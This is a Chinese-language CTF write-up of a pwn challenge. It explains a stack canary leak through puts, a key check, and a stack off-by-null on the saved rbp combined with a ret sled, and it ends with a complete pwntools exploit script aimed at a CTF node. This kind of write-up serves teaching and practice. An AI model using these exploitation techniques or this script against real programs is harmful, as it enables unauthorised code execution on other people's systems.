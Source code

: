 exp 打不通多试试几次

这题感觉是又新又好，有栈上的off_by_null又有点nop_sled的味道  
开头的puts应该是专门给你泄露canary的  
通过覆盖canary的\x00让puts误认为canary也是字符串的一部分

```
payload = b'a' * 0x20 + b'b'*0x8
sl(payload)
ru("bbbbbbbb\x0a")
canary = u64(p.recv(7).rjust(8,b'\x00'))
success("canary-->" + hex(canary))
```

进入vuln还需要通过v5的检测，这个v5是一个伪随机数，在gdb里面看一看就知道了。直接输入就可以。注意用p32，因为int四字节

```
sea("key\n\n",p32(0x02c3))
```


这个vuln就很有意思了，感觉挺花的玩的  
![NSSIMAGE](https://www.nssctf.cn/files/2023/4/23/75e171203e.jpg)  
众所周知，read的返回值是你正确输入的字节数，也就是说，整个函数会使得你输入的payload的下一个字节的最后一位改成’\x00’,也就是俗称的off_by_null（说实话第一次看见栈题目中出现off_by_null的）  
这有什么用呢？在stack题目中，我们一般需要关注的是什么，一个是rbp,一个是ret_addr。因为他俩是可以用来劫持程序流的。  
题目给与的空间最多只能修改rbp的最后一位，这就足够了。  
rbp存储的是什么？是当前函数父栈帧的栈底指针位置，而rbp往后一个字节正好就是ret_addr。  
那么思路就很明显了，通过大量输入ret.让rbp正好修改到ret上面(这个看运气，因为栈地址随机化问题，五次差不多能有一次可以中)，这样等到父栈帧返回时就，可以一直ret,直到获得shell。  
这是一个成功的例子  
![NSSIMAGE](https://www.nssctf.cn/files/2023/4/23/00d165efe6.jpg)：  
刚刚进入vuln的stack，等待输入的情况：此时rbp 位置存储的是0x…ac70,而我们是向0x…acd0(rbp-0x50)位置写入payload,也就是说0x…acd0到0x…ac08都会充满ret  
而由于off_by_null漏洞，会使得父栈帧的rbp变成0x…ac00,它下一字长就是我们填入的ret,就可以成功获得shell了  
完整Exp:

```
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
native = 0

if native:
    p = process('pwn1')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('node4.anna.nssctf.cn',28116)


# libc = ELF('')

def debug():
    gdb.attach(p)
    pause()


def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))


se = lambda data: p.send(data)
sa = lambda delim, data: p.sendafter(delim, data)
sl = lambda data: p.sendline(data)
sla = lambda delim, data: p.sendlineafter(delim, data)
sea = lambda delim, data: p.sendafter(delim, data)
rc = lambda numb=4096: p.recv(numb)
rl = lambda: p.recvline()
ru = lambda delims: p.recvuntil(delims)

shell = 0x4007C7
ret = 0x400902
payload = b'a' * 0x20 + b'b'*0x8
sl(payload)
ru("bbbbbbbb\x0a")
canary = u64(p.recv(7).rjust(8,b'\x00'))
success("canary-->" + hex(canary))
sea("key\n\n",p32(0x02c3))

payload = p64(ret) * 10
payload += flat([shell,canary])
sea("to me\n",payload)

p.interactive()
```
